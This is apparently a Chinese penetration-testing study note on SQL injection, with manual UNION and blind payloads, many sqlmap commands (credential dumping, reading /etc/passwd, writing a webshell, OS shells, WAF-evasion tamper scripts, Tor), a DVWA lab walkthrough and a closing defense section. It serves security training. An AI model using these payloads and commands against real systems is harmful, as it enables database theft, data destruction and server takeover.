


# 04-SQL注入攻击

## 目录
- [[#一、SQL注入原理|一、SQL注入原理]]
 - [[#1.1 漏洞产生原因|1.1 漏洞产生原因]]
 - [[#1.2 SQL注入类型|1.2 SQL注入类型]]
- [[#二、手工SQL注入测试|二、手工SQL注入测试]]
- [[#三、sqlmap自动化注入|三、sqlmap自动化注入]]
 - [[#3.1 基本扫描|3.1 基本扫描]]
 - [[#3.2 枚举数据库与表|3.2 枚举数据库与表]]
 - [[#3.3 获取数据|3.3 获取数据]]
 - [[#3.4 POST与Cookie注入|3.4 POST与Cookie注入]]
- [[#四、sqlmap高级技巧|四、sqlmap高级技巧]]
 - [[#4.1 文件系统操作与OS Shell|4.1 文件系统操作与OS Shell]]
 - [[#4.2 Tamper脚本绕过|4.2 Tamper脚本绕过]]
 - [[#4.3 其他高级选项|4.3 其他高级选项]]
- [[#五、DVWA SQL注入实战|五、DVWA SQL注入实战]]
- [[#六、盲SQL注入工具|六、盲SQL注入工具]]
- [[#七、SQL注入防御与修复|七、SQL注入防御与修复]]

---

## 一、SQL注入原理

### 1.1 漏洞产生原因

SQL注入是指攻击者通过把恶意SQL代码插入到应用程序的输入参数中，从而操纵后端数据库执行非预期的SQL命令。参见 [[../网安基础知识/02-Web技术基础|Web技术基础]] 了解Web应用数据流。



**漏洞代码示例（PHP + MySQL）：**
```php
$id = $_GET['id'];
$query = "SELECT * FROM users WHERE id = $id";
$result = mysql_query($query);
```

正常输入 `id=1` → 执行：`SELECT * FROM users WHERE id = 1`

恶意输入 `id=1 OR 1=1` → 执行：`SELECT * FROM users WHERE id = 1 OR 1=1` → 返回所有记录（1=1永远为真）

恶意输入 `id=-1 UNION SELECT username,password FROM users` → 窃取所有用户名和密码

### 1.2 SQL注入类型

**按注入位置分类：**
1. **GET参数注入：** `?id=1'`（URL可见）
2. **POST参数注入：** 表单提交的数据
3. **Cookie注入：** Cookie中的值拼接SQL
4. **Header注入：** User-Agent, Referer, X-Forwarded-For
5. **JSON注入：** API中的JSON数据
6. **SOAP/XML注入：** Web Service调用

**按技术分类：**

| 类型 | 原理 | 特征 |
|------|------|------|
| **UNION联合查询** | 使用UNION SELECT合并查询结果 | ?id=-1 UNION SELECT 1,2,3 -- 回显数据 |
| **Error-based报错注入** | 利用数据库报错信息获取数据 | 依赖详细错误信息 |
| **Boolean-blind布尔盲注** | 通过页面差异判断真假 | ?id=1' AND 1=1 -- 正常 vs ?id=1' AND 1=2 -- 异常 |
| **Time-based时间盲注** | 通过响应延迟判断 | ?id=1' AND SLEEP(5) -- 延迟5秒确认注入 |
| **Stacked Queries堆叠查询** | 分号分隔执行多条SQL | ?id=1; DROP TABLE users; -- |
| **Second-Order二次注入** | 恶意数据先存储后被使用 | 注册用户名: admin' --，后续触发 |

**按数据库分类：**
- MySQL/MariaDB → 使用 `information_schema`
- PostgreSQL → 使用 `information_schema`, `pg_class`
- Microsoft SQL → 使用 `sysobjects`，支持 `xp_cmdshell`
- Oracle → 使用 `all_tables`，语法差异大
- SQLite → 使用 `sqlite_master`

---

## 二、手工SQL注入测试

在自动化之前，理解手工测试至关重要。

**Step 1: 寻找注入点** — URL数字参数（`page.php?id=1`）、搜索框、登录框、任何接受用户输入并查询数据库的地方。

**Step 2: 基本测试字符：**
```
' → 单引号（测试字符串闭合）
" → 双引号
\ → 反斜杠（可能暴露数据库类型）
; → 分号（测试堆叠查询）
) → 右括号（测试括号闭合）
' -- → 单引号+注释
' # → 单引号+MySQL注释
NULL → 空值测试
```

异常表现：显示数据库错误（报错注入机会！）、页面内容变化（布尔盲注）、页面空白或500错误、响应时间变长（时间盲注）。

**Step 3: 确认注入：**
- 数字型：`?id=1 AND 1=1`（正常）vs `?id=1 AND 1=2`（异常）
- 字符型：`?name=admin' AND '1'='1`（正常）vs `?name=admin' AND '1'='2`（异常）

**Step 4: 确定列数** — `?id=1 ORDER BY 5 --`（逐个递增直到报错）

**Step 5: 确定回显位置** — `?id=-1 UNION SELECT 1,2,3,4,5 --` 观察页面上显示的数字

**Step 6-9: 获取数据：**
```sql
-- 获取数据库名和用户名
?id=-1 UNION SELECT 1,database(),3,user(),5 --

-- 获取表名(MySQL)
?id=-1 UNION SELECT 1,group_concat(table_name),3,4,5
 FROM information_schema.tables WHERE table_schema=database() --

-- 获取列名
?id=-1 UNION SELECT 1,group_concat(column_name),3,4,5
 FROM information_schema.columns WHERE table_name='users' --

-- 获取数据
?id=-1 UNION SELECT 1,group_concat(username,0x3a,password),3,4,5
 FROM users --
```

---

## 三、sqlmap自动化注入

sqlmap是最强大的SQL注入自动化工具，支持所有主流数据库、6种注入技术（B/E/U/S/T/Q）、完整数据库枚举、文件系统访问、操作系统命令执行。

### 3.1 基本扫描

```bash
# 最基础的测试
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1"

# 获取所有数据库
sqlmap -u "http://example.com/page.php?id=1" --dbs

# 获取当前数据库/用户/是否DBA
sqlmap -u "http://example.com/page.php?id=1" --current-db
sqlmap -u "http://example.com/page.php?id=1" --current-user
sqlmap -u "http://example.com/page.php?id=1" --is-dba

# 获取用户密码哈希
sqlmap -u "http://example.com/page.php?id=1" --passwords
```

### 3.2 枚举数据库与表

```bash
# 获取指定数据库的表
sqlmap -u "http://example.com/page.php?id=1" -D testdb --tables

# 获取指定表的列
sqlmap -u "http://example.com/page.php?id=1" -D testdb -T users --columns
```

### 3.3 获取数据

```bash
# 获取指定列的全部数据
sqlmap -u "http://example.com/page.php?id=1" \
 -D testdb -T users -C username,password --dump

# 获取整个表 / 限制行数 / 排除系统数据库
sqlmap -u "http://example.com/page.php?id=1" \
 -D testdb -T users --dump --stop 10

# 导出到指定目录
sqlmap -u "http://example.com/page.php?id=1" \
 -D testdb -T users --dump --dump-dir /home/a/sqlmap_dumps/
```

### 3.4 POST与Cookie注入

```bash
# POST表单注入
sqlmap -u "http://example.com/login.php" \
 --data="username=admin&password=123&submit=Login"

# 指定参数测试
sqlmap -u "http://example.com/login.php" \
 --data="username=admin&password=123" -p password

# 从Burp保存的请求文件读取
sqlmap -r request.txt --batch

# Cookie认证 / Cookie值本身作为注入点
sqlmap -u "http://example.com/page.php?id=1" \
 --cookie="PHPSESSID=abc123; security=low"
sqlmap -u "http://example.com/index.php" \
 --cookie="id=1" -p id
```

---

## 四、sqlmap高级技巧

### 4.1 文件系统操作与OS Shell

```bash
# 读取文件（需要DBA权限）
sqlmap -u "http://example.com/page.php?id=1" --file-read="/etc/passwd"

# 写入文件（写webshell）
sqlmap -u "http://example.com/page.php?id=1" \
 --file-write="/home/a/shell.php" \
 --file-dest="/var/www/html/shell.php"

# 获取交互式SQL Shell / OS Shell
sqlmap -u "http://example.com/page.php?id=1" --sql-shell
sqlmap -u "http://example.com/page.php?id=1" --os-shell

# 执行单条OS命令
sqlmap -u "http://example.com/page.php?id=1" --os-cmd="whoami"
sqlmap -u "http://example.com/page.php?id=1" --os-cmd="id"
sqlmap -u "http://example.com/page.php?id=1" --os-cmd="cat /etc/passwd"

# 获取Meterpreter shell（配合Metasploit）
sqlmap -u "http://example.com/page.php?id=1" --os-pwn
```

### 4.2 Tamper脚本绕过

```bash
# 列出所有tamper脚本
sqlmap --list-tampers

# 常用tamper脚本说明:
# space2comment → 用注释/**/替换空格
# space2plus → 用+替换空格
# space2randomblank → 随机空白字符替换空格
# base64encode → Base64编码参数
# charencode → URL编码
# charunicodeencode → Unicode编码
# between → 用BETWEEN替换比较运算符
# equaltolike → 用LIKE代替=
# randomcase → 随机大小写
# versionedkeywords → MySQL版本化注释 /*!...*/
# xforwardedfor → 添加伪造的X-Forwarded-For

# 单个tamper
sqlmap -u "http://example.com/page.php?id=1" --tamper=space2comment

# 多个tamper组合
sqlmap -u "http://example.com/page.php?id=1" \
 --tamper="space2comment,charencode,randomcase" --dbms=mysql

# tamper + 代理调试
sqlmap -u "http://example.com/page.php?id=1" \
 --tamper=space2comment --proxy="http://127.0.0.1:8080"
```

### 4.3 其他高级选项

```bash
# 指定数据库类型 / 注入技术 / 等级
sqlmap -u "URL" --dbms=mysql
sqlmap -u "URL" --technique=BEUS # B=Boolean, E=Error, U=Union, S=Stacked, T=Time
sqlmap -u "URL" --level=3 # 1-5, 默认1
sqlmap -u "URL" --risk=2 # 1-3, 默认1 (risk=3可能破坏数据!)

# 代理 / Tor匿名化 / 随机延迟
sqlmap -u "URL" --proxy="http://127.0.0.1:8080"
sqlmap -u "URL" --tor --tor-type=SOCKS5 --check-tor
sqlmap -u "URL" --delay=2
sqlmap -u "URL" --delay=0.5 --randomize=0.25

# 批量模式 / 刷新session / 多线程
sqlmap -u "URL" --batch
sqlmap -u "URL" --flush-session
sqlmap -u "URL" -D db -T table --dump --threads=10

# 指定第二注入点（二阶注入） / 安全URL
sqlmap -u "URL" --second-url="http://example.com/second.php"
sqlmap -u "URL" --safe-url="http://example.com/" --safe-freq=3
```

---

## 五、DVWA SQL注入实战

**靶机环境：** DVWA（Damn Vulnerable Web Application），默认凭证 `admin/password`。



```bash
# Step 1-4: 登录DVWA → DVWA Security → Low → Submit
# 然后F12 → Storage → 复制Cookie字符串

# Step 5a: 基本测试
sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" \
 --cookie="PHPSESSID=abc123def456; security=low"

# Step 5b: 获取数据库
sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" \
 --cookie="PHPSESSID=abc123def456; security=low" --dbs

# Step 5c: 获取表
sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" \
 --cookie="PHPSESSID=abc123def456; security=low" -D dvwa --tables

# Step 5d: 获取列
sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" \
 --cookie="PHPSESSID=abc123def456; security=low" \
 -D dvwa -T users --columns

# Step 5e: dump数据（关键！）
sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" \
 --cookie="PHPSESSID=abc123def456; security=low" \
 -D dvwa -T users -C user,password --dump
# sqlmap会询问是否破解密码哈希 → 输入 y

# Medium级别（POST方法+下拉菜单）
sqlmap -u "http://dvwa.local/vulnerabilities/sqli/" \
 --data="id=1&Submit=Submit" \
 --cookie="PHPSESSID=abc123def456; security=medium"

# 尝试文件读取 / OS命令执行
sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" \
 --cookie="PHPSESSID=abc123def456; security=low" --file-read="/etc/passwd"
sqlmap -u "http://dvwa.local/vulnerabilities/sqli/?id=1&Submit=Submit" \
 --cookie="PHPSESSID=abc123def456; security=low" --os-cmd="whoami"
```

---

## 六、盲SQL注入工具

### bsqlbf

```bash
# 基本使用
bsqlbf -u "http://example.com/page.php?id=1" --blind

# 指定参数 / 数据库类型
bsqlbf -u "http://example.com/page.php?id=1" -p id --blind
bsqlbf -u "http://example.com/page.php?id=1" --mysql
```

### blindsql

```bash
# 基本使用
cd /usr/share/blindsql/
perl blindsql.pl -u "http://example.com/page.php?id=1" -p id
```

---

## 七、SQL注入防御与修复

**安全开发建议（红队也需要了解蓝队知识）：**

1. **参数化查询/预编译语句：**
 ```php
 $stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
 $stmt->execute([$id]);
 ```

2. 输入验证：白名单验证优于黑名单
3. 最小权限原则：应用数据库用户不应有DBA权限
4. 禁用detailed错误信息：`display_errors=Off`
5. WAF：部署Web应用防火墙作为额外防护层
6. 定期安全测试：使用sqlmap自测

**sqlmap使用技巧：**
1. `--batch` 用于无人值守扫描
2. `--flush-session` 用于新目标扫描
3. `--random-agent` 随机构造User-Agent
4. 遇到WAF优先使用 `--tamper`
5. 慢速扫描：`--delay=2 --time-sec=10`（绕过WAF）
6. `--sql-shell` 进入交互式SQL查询模式
7. `--search` 搜索特定列名：`sqlmap -u "URL" --search -C pass`

> **法律与安全警告：** 仅在有书面授权的系统上使用sqlmap；sqlmap流量极易被IDS/IPS检测；`--os-shell`, `--os-pwn` 等高危操作仅在授权环境下使用；在生产环境使用 `--risk=3` 可能破坏数据。

[[../总目录与快速查询|← 返回总目录]] | 上一模块：[[03-Web漏洞扫描与检测|03-Web漏洞扫描与检测]] | 下一模块：[[05-XSS与CSRF攻击|05-XSS与CSRF攻击]]
